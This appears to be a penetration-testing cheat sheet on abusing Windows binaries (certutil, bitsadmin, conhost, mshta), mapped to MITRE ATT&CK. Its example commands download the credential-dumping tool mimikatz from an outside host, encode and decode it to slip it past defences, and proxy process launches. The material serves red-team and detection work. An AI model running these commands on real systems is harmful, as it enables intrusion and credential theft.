 ## Abusing certutil.exe
### Mitre ATT&CK Summary
Tactic | Technique ID | Technique Name | Sub-technique Name | Defence Bypassed
:---:|:---:|:---:|:---:|:---:
Command and Control|T1105|Ingress Tool Transfer|S0160|N/A

### Examples

    certutil -urlcache -f https://github.com/ParrotSec/mimikatz/raw/master/x64/mimikatz.exe mimikatz64.exe
	To encode at server:
		certutil -encode mimikatz64.exe mimikatz64_enc.exe
	To decode at target:
		certutil -decode mimikatz64_enc.exe mimikatz64_dec.exe

## Abusing bitsadmin.exe
### Mitre ATT&CK Summary
Tactic | Technique ID | Technique Name | Sub-technique Name | Defence Bypassed
:---:|:---:|:---:|:---:|:---:
Command and Control|T1105|Ingress Tool Transfer|S0190|N/A

### Examples

    bitsadmin /list
    bitsadmin /create hacker
    bitsadmin /addfile hacker https://github.com/ParrotSec/mimikatz/raw/master/x64/mimikatz.exe "D:\Penetration Tests\Tests\b_scratchpad\01_script_dev\mimikatz64.exe"
    bitsadmin /list /verbose
    bitsadmin /resume hacker
    bitsadmin /complete hacker
    bitsadmin /reset
    bitsadmin /list /verbose

## Abusing conhost.exe
### Mitre ATT&CK Summary
Tactic | Technique ID | Technique Name | Sub-technique Name | Defence Bypassed
:---:|:---:|:---:|:---:|:---:
Privilege Escalation|T1068|Exploitation for Privilege Escalation|N/A|N/A

### Examples

    conhost calc.exe
    conhost --headless calc.exe

## Abusing mshta.exe
### Mitre ATT&CK Summary
Tactic | Technique ID | Technique Name | Sub-technique Name | Defence Bypassed
:---:|:---:|:---:|:---:|:---:
Defence Evasion|T1218.005|System Binary Proxy Execution|System Binary Proxy Execution: Mshta|Application control, Digital Certificate Validation
